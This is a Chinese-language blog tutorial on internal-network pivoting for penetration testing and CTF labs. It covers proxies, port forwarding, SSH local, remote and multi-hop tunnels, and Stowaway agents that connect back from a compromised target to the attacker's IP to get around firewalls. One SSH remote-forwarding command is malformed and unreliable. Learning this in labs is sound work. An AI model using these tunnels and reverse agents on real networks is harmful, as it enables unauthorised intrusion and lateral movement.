





# 0x01废话

之前在打春秋云镜的靶场的时候接触过一点内网穿透，当时也学着搭了一下隧道，不过还是得认真学习一下。

参考文章:

[图文总结：正向代理与反向代理 ](https://www.cnblogs.com/wzh2010/p/18031168)

[内网代理搭建](https://fushuling.com/index.php/2023/09/21/内网代理搭建/)

加上参考了N1的内网渗透体系建设的书

# 0x02前置知识

在渗透测试的过程中，通常我们打进外网getshell之后，就需要对内网进行渗透，此时除了需要对内网进行基础的信息收集之外，还需要通过端口转发或搭建代理等方式去完成与内网之间的通道搭建

 在学习端口转发和隧道搭建之前，我们需要理清楚两个知识点

## 正向代理和反向代理

其实正向代理和反向代理都位于客户端和真实服务器之间的，都是为了将客户端发送的请求转发给服务器，然后再将服务器的响应返回给客户端

正向代理的作用是什么呢？

- 正向代理可以隐藏客户端的真实IP地址，代理服务器代表客户端去向服务器发起请求。根据一定的规则限制或允许客户端的访问请求，实现访问控制功能。
- 在某些地区或网络环境下，用户可能无法直接访问某些网站或服务。那么我们可以通过设置正向代理来突破这些限制，实现访问。

反向代理的作用是什么呢？

- 反向代理可以隐藏后端服务器的真实地址和端口，防止直接攻击（如DoS/DDoS）。同时，还可以实现SSL加密、访问控制等安全功能。
- 反向代理可以根据后端服务器的负载情况，将请求分发到不同的服务器上，实现负载均衡，提高系统的整体性能。(CDN的实现)

这两个的区别是什么？

- **代理对象**不同，正向代理是为客户端提供代理服务的，旨在保护客户端的隐私安全；而反向代理是为服务器提供代理服务的，旨在保护服务器的隐私安全。
- 服务对象：在正向代理中，服务器不知道真正的用户是谁；而在反向代理中，用户不知道真正的服务器是谁。说白了就是正向代理将客户端的请求发送给服务器的时候，会隐藏客户端的真实IP地址，而反向代理在返回服务器的响应的时候会隐藏服务器的真实IP地址。
- **用途和目的：** 正向代理的主要用途是为在防火墙内的局域网客户端提供访问Internet的途径，侧重于解决访问限制问题。而反向代理的主要用途是将防火墙后面的服务器提供给Internet用户访问，其目的在于实现负载均衡、安全防护等。

## 正向连接和反向连接

什么是正向连接？

- 正向连接(攻击机去连接靶机)就是受控制端主机监听一个端口，然后由控制端主机主动去连接受控端主机的过程，适用于**受控主机具有公网IP**的情况。

什么是反向连接？

- 反向连接(靶机主动连接攻击机)就是控制端主句监听一个端口，由受控端主机反向去连接控制端主机的过程，适用于受控端没有公网IP的情况，但是同时也是需要**受控端可以出网**才能实现的。

但是在我们正常的渗透中，正向连接往往都会受到受控主机上的防火墙限制或者权限不足的情况所困扰，这时候反向连接可以更好的完成两个机子之间的连接

前置知识了解完了，我们开始学习如何进行代理搭建

# 0x03端口转发

端口转发(Port Forwarding)是网络地址转换(NAT)的一种应用。通过端口转发，我们可以将一个网络端口上收到的数据转发到另一个网络端口，转发的端口可以是本机的端口也可以是其他主机上的端口。

**端口转发实现的作用是什么呢？**假如内网部署的安全机制例如防火墙会检查某个敏感端口的连接情况，会对数据的传入起到一个阻断作用，这时候我们可以通过端口转发将这个敏感端口的数据转发到另一个不会被防火墙检测的端口上，以此建立起一个通信隧道，这样就可以绕过防火墙的检测并与指定的端口实现通信，所以搭建代理的过程又被称为是搭建隧道的过程。

另外我们讲到端口转发，就不得不提到一个端口映射，之前我一直以为所谓将数据转发的过程叫做端口映射，后来仔细百度了才知道这两者是不一样的。

## 端口映射

端口映射：也是一种网络地址转换的应用，不过它是用于把公网的地址翻译成私有地址。端口映射可以将外网主机收到的请求映射到内网主机上，使得没有公网IP地址的内网主机能够对外提供相应的服务

看到一个师傅给的例子我觉得挺形象的，就是比如我们在内网中有一台Web服务器，但是其他网域中的用户是没有办法直接访问该服务器。所以在路由器上设置一个端口映射，只要q用户访问路由器ip的80端口，那么路由器会把自动把流量转到内网Web服务器的80端口上。并且，在路由器上还存在一个Session，当内网服务器返回数据给路由器时，路由器能准确的将消息发送给外网请求用户的主机。在这过程中，路由器充当了一个反向代理的作用，他保护了内网中主机的安全。

其实这两个应用本质上都是为了访问内网服务器上无法访问到的服务，只不过是操作的方法不一样

# 0x04内网代理搭建

## 搭建ssh隧道

### 单层的ssh隧道搭建

例如我们在内网渗透的时候已经拿到了一台位于某个内网中的服务器的shell，那我们可以利用这个服务器作为跳板使得我们可以访问该内网内的其他服务器然后展开我们的渗透

环境拓扑如下，我这里借一下师傅的图



此时我们想要搭建ssh隧道使得我们可以访问办公网的web服务器

- **本地端口转发**--流量从SSH客户端主机转发到 SSH 服务器主机，然后转发到目标机器端口。

在Windows攻击机命令行运行:

```
ssh -L 8085:172.2.136.5:80 ctfshow@pwn.challenge.ctf.show -p 28227
```

参数`-L`：将目标端口代理在本机的端口上

这里的话就是将内网主机的80端口的流量转发到主机的8085端口上，然后通过访问localhost:8085去访问内网主机的服务，具体的实现过程是这样的：

- 先通过SSH协议连接到可控服务器的28227端口上，此时可控服务器就作为跳板或代理服务器
- 配置本地端口转发，此时所有发往本地 `8085` 端口的请求，会通过SSH加密隧道转发到代理服务器，再由代理服务器转发到内网主机 `172.2.136.5` 的80端口。
- 端口转发流程：我们访问本地的8085端口的时候，SSH将请求先发送到代理服务器的28227端口，并由代理服务器将请求发送到内网主机的80端口，请求的响应数据原路返回，通过加密隧道传回本地8085端口

SSH搭建隧道的应用场景：

- 访问内网服务：当内网目标主机无法直接通过公网访问服务的时候，我们就可以通过搭建SSH隧道进行内网穿透，打破限制
- 安全加密传输：所有流量通过SSH加密，防止中间人攻击导致数据泄露

除了本地端口转发，还有远程端口转发

- **远程端口转发**--其实大差不差，不过是用的我们自己的远程服务器进行端口转发的

```
ssh - R 8085:[Remote IP]:172.2.136.5:80 ctfshow@pwn.challenge.ctf.show -p 28227
```

### 多层的SSH隧道搭建

多层的话就要进行多层端口的转发了

环境拓扑：



有两个可控的服务器，一个位于表层一个位于深层，假如表层内网有服务器的话隧道搭建和上面的单层是一样的，但是这里我们需要访问的内网web服务器位于深层内网，这时候就需要进行多层隧道的搭建了

首先我们先在表层内网服务器上运行

```
ssh -L 8085:172.2.136.5:80 ctfshow@pwn.challenge.ctf.show -p 28227
```

在表层内网和深层内网之间建立隧道，使得我们可以通过访问表层内网服务器的8085端口去访问内网web服务的80端口，然后我们在Windows上运行

```
ssh -L 8086:127.0.0.1:8085 root@vps_ip -p vps_port
```

在攻击机和表层内网之间建立隧道，使得我们可以通过访问8086端口去访问表层内网服务器的8085端口

然后我们就可以通过在本地访问8086直接访问深层内网中的172.2.136.5的web服务

## 利用Stowaway搭建隧道





这个工具很好用，命令也比较简单，可以分正反向代理去搭建代理

在这些参数里面我们只需要关注`-l`，`-s`，`-c`这三个参数，其中`-l`，`-c`这两个参数的使用取决于是正向连接还是反向连接，主动连接的一方就是采用主动模式的参数`-c`

搭建正向代理，就让攻击机去连接靶机。

先在靶机上监听端口(我用的Linux云服务器)

```
.\windows_x64_agent.exe -l 9999
```

然后在自己的攻击机上进行正向代理的连接

```
.\windows_x64_admin.exe -c [靶机的公网ip]:9999
```

然后就可以了



搭建反向代理，就让靶机去主动连接攻击机

先在攻击机上监听端口

```
.\windows_x64_admin.exe -l 9999
```

然后在靶机上进行反向代理的连接

```
.\windows_x64_agent.exe -c [攻击机的公网ip]:9999
```

其实这里的话能不能开启代理主要有两个条件，一是需要被连接的靶机有公网ip，二是靶机和攻击机在同一个局域网中，二者满足其一就可以（这个是我和我朋友同时连接同一个热点然后实践实验出来的）说白了就是两个机子之间要能互相通信。
